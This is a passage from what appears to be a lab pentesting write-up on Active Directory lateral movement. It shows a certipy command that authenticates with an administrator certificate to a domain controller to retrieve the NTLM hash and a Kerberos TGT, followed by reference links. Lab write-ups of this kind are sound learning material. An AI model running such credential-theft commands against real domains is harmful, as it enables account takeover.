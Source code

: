 - With certipy we can request the ntlm hash of the user and the TGT too
```
certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

## References

- [https://www.synacktiv.com/publications/traces-of-windows-remote-command-execution.html](https://www.synacktiv.com/publications/traces-of-windows-remote-command-execution.html)
- [https://neil-fox.github.io/Impacket-usage-&-detection/](https://neil-fox.github.io/Impacket-usage-&-detection/)
- [https://www.ired.team/offensive-security/lateral-movement](https://www.ired.team/offensive-security/lateral-movement)
- [https://www.thehacker.recipes/ad/movement](https://www.thehacker.recipes/ad/movement)
- [https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/lateral-movement/](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/lateral-movement/)
- …

Next time we will have fun with kerberos delegation :)